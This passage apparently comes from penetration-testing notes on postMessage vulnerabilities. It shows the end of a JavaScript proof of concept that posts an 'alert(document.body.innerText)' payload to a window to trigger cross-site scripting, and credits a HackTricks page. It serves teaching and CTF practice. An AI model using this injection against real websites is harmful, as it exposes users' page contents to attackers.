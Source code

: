 ```html
    setTimeout(() => {
      // Exploit the XSS by reading the body
      w.postMessage("alert(document.body.innerText)", "*");
    }, 1000);
  }
<\/script>
    `;
    document.body.appendChild(frame);
  </script>
</body>
```
{% endcode %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/postmessage-vulnerabilities" %}
Source for most ideas on this page, including more niece tricks from CTF challenges
{% endembed %}

